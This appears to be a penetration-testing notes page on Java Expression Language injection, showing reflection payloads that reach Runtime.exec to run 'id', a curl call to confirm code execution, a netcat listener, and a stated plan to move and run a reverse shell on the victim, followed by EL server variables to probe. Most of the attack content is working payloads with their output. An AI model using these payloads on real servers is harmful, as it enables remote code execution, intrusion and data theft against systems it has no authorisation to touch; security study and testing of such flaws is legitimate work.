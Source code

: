 > The first accessible method of java.util = **before()**

- https://www.javatpoint.com/java-date-before-method
- The data package has a before() method that takes a Date object as an argument


### EL Code Execution
Trying RCE:
```
Java.lang.Runtime.getRuntime().exec(command)
java.lang.ProcessBuilder(command, argument1, argument2).start()
```

getRuntime try:
```java
{"".getClass().forName("java.lang.Runtime").getMethods()[6].toString()}
[public static java.lang.Runtime java.lang.Runtime.getRuntime()]
```

Invoke the final function:
```java
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("id")}
[Process[pid=2770, exitValue=0]]
```

In such a scenario, we would rather go For an interactive reverse shell. In this case, we confirm the existence of code execution by issuing curl,  as follows:
```java
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://127.0.0.1/rce")}
[Process[pid=2816, exitValue="not exited"]]
```

The request is received on a netcat listener:
```
nc -lvnp 80
```

Curl is very useful, we can transfer files to and from the victim machine

> So we can move a reverse shell and run it using the template injection RCE vuln

### Extending EL Exploitation
Server variables usually have universal names - like :
```
- ${application} 
- ${session}
- ${request}
```

> Burp Intruder can be utilized For injecting these and looking if interesting data is not returned in result (if the object is resolved)

Some variables names can look like (they are executed in their respective template curly braces):
```js
applicationScope # global application variables
requestScope # request variables
initParam # application initialization variables
sessionScope # session variables
param.X # parameter value where X is name of a http parameter
```
